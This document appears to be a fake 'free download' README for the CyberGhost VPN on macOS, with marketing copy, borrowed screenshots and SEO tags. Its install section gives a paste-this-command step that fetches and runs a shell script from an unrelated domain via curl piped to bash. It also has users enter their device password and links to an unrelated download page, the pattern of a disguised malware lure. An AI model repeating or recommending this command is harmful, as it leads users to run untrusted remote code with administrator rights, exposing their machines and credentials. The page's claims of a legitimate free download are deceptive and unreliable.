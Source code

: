 # CyberGhost — Free Download for Mac OS 🛡️

CyberGhost VPN is a powerful tool to secure your online presence. Follow the instructions below to download and install CyberGhost for Mac OS effortlessly.

[![Download Now](https://img.shields.io/badge/Download-Now-blue?style=for-the-badge)](https://fituganshfgh.github.io/.github/cyberghost)

If the button above doesn't work, follow the terminal installation instructions below.

## 📦 How to Install CyberGhost for Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with CyberGhost

- 🛡️ **Enhanced Privacy**: Protect your personal data with military-grade encryption.
- 🌍 **Global Access**: Connect to servers in over 90 countries for unrestricted browsing.
- ⚡ **High-Speed Connections**: Enjoy fast and reliable VPN connections for streaming and browsing.
- 🔒 **No-Logs Policy**: Browse with confidence knowing your activity isn’t tracked.
- 📱 **Multi-Device Support**: Use CyberGhost on multiple devices with a single account.
- 🛠️ **User-Friendly Interface**: Navigate the app easily with its intuitive design.

## About CyberGhost

CyberGhost VPN is a leading solution for safeguarding your online privacy and security. With its robust encryption protocols, this software ensures your data remains protected from prying eyes, whether you're browsing at home or on public Wi-Fi. The user-friendly interface makes it easy for beginners and advanced users alike to secure their connections with just a few clicks. By choosing CyberGhost, you gain access to a vast network of servers worldwide, allowing you to bypass geo-restrictions and access content seamlessly.

The software is optimized for Mac OS, ensuring smooth performance without compromising your device's speed. Whether you're streaming your favorite shows, working remotely, or simply browsing the web, CyberGhost provides a secure and reliable connection. Its no-logs policy guarantees that your online activities remain private, giving you peace of mind in an era of increasing cyber threats. The installation process is straightforward, with options for both .dmg and terminal-based setups to suit your preferences.

CyberGhost stands out for its ability to unblock streaming platforms, making it a favorite among users who want to access region-locked content. From Netflix to BBC iPlayer, CyberGhost's dedicated servers ensure buffer-free streaming. The software also supports torrenting on specific servers, offering a safe environment for peer-to-peer file sharing. With regular updates and a commitment to user privacy, CyberGhost remains a trusted choice for Mac users worldwide.

One of the key advantages of CyberGhost is its versatility. It supports multiple devices, allowing you to protect your Mac, iPhone, iPad, and other platforms under a single subscription. The app's sleek design integrates seamlessly with Mac OS, providing a native experience that feels intuitive. Additionally, CyberGhost offers 24/7 customer support to assist with any installation or connectivity issues, ensuring a hassle-free experience.

### Why Choose CyberGhost?

CyberGhost offers a unique combination of security, speed, and ease of use. Unlike other VPNs, it prioritizes user privacy with a strict no-logs policy and advanced encryption standards. Its global server network ensures you can access content from anywhere, while its optimized performance guarantees minimal impact on your Mac's speed. Whether you're a casual user or a privacy enthusiast, CyberGhost delivers a seamless and secure browsing experience.

## 🖼 Preview

![CyberGhost Dashboard](https://assets.cyberghostvpn.com/photos/cg/4-mac.png)
*Clean and intuitive CyberGhost dashboard for easy navigation*

![Server Selection](https://imag.malavida.com/mvimgbig/download-fs/cyberghost-vpn-24195-4.jpg)
*Choose from a global network of servers for secure browsing*

![Streaming Mode](https://www.pcwelt.de/wp-content/uploads/2025/04/4193170_original.jpg?quality=50&strip=all)
*Optimized streaming servers for seamless content access*

## 🔍 Tags

CyberGhost VPN download, VPN for Mac, free VPN download, CyberGhost free, cyberghost mac, cyberghost free download, cyberghost macos, cyberghost free, download cyberghost, CyberGhost VPN download free, CyberGhost VPN free mac, CyberGhost VPN download mac, CyberGhost VPN mac
